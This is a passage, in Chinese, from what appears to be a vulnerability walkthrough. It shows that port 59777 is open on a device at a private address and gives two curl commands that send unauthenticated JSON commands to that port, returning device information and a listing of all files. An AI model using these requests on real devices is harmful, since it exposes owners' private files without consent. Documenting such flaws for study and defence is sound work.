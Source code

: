 ![Untitled](img/Untitled%204.png)

可以看到 `59777` 端口已经打开。

接下来构造 HTTP 数据报文，将命令封装至 `Json` 数据中，请求 `59777` 端口；这里演示 `getDeviceInfo`命令，可以看到成功返回了设备的信息。

```bash
curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"getDeviceInfo\"}" http://192.168.5.129:59777
```

![Untitled](img/Untitled%205.png)

命令执行示例(列出所有的文件)：

```bash
curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"listFiles\"}" http://192.168.5.129:59777
```
